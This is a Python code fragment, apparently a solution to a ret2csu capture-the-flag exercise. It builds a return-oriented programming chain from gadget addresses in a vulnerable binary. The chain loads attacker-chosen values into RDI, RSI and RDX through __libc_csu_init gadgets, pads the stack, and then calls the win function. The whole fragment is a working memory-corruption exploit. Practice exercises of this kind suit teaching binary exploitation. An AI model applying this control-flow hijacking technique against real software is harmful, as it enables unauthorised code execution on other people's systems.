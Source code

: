 ```python
pop_rdi_ret = p64(0x004006a3)                       # pop rdi; ret;

# The third stack value needs to be the RSP value
ret2csu_gadget_staging = p64(0x0040069a)            # pop rbx;
                                                    # pop rbp;
                                                    # pop r12;
                                                    # pop r13;
                                                    # pop r14;
                                                    # pop r15;
                                                    # ret

ret2csu_gadget_call_offset = p64(0x00400680)        # mov rdx, r15; 
                                                    # mov rsi, r14;
                                                    # mov edi, r13d;
                                                    # call qword [r12 + rbx*8]

'''
Pointer to an executable location with the following gadget:

sub rsp, 8;
add rsp, 8;
ret;
'''
dereferenceable_addr = p64(0x00600e48)
ret2win = p64(io.elf.plt['ret2win'])


'''
R15 = RDX = 0xd00df00dd00df00d
R14 = RSI = 0xcafebabecafebabe
R13 = RDI = 0xdeadbeefdeadbeef
R12 = 0x00600e48
RBX = 0x0
'''

# Craft the ROP chain
rop_chain = b"".join([
    ret2csu_gadget_staging,
    p64(0),                     # RBX = 0
    p64(0x01),                  # RBP = 0x01; this is important so that we can avoid the conditional jump in __libc_csu_init after calling the dereferenced address
    dereferenceable_addr,       # R12 = pointer to a safe address to dereference
    p64(0xdeadbeefdeadbeef),    # R13 = RDI = 0xdeadbeefdeadbeef
    p64(0xcafebabecafebabe),    # R14 = RSI = 0xcafebabecafebabe
    p64(0xd00df00dd00df00d),    # R15 = RDX = 0xd00df00dd00df00d
    ret2csu_gadget_call_offset, # Call the value of the dereferenced address

    p64(0),                     # Align the stack so that after the values pop, we still have control of it
    p64(0),                     
    p64(0),                     
    p64(0),                     
    p64(0),                     
    p64(0),                     
    p64(0),                     

    pop_rdi_ret,                # Adjust RDI back to 0xdeadbeefdeadbeef
    p64(0xdeadbeefdeadbeef),
    ret2win                     # Call ret2win with the necessary arguments
])

# Craft the payload
offset = 40
```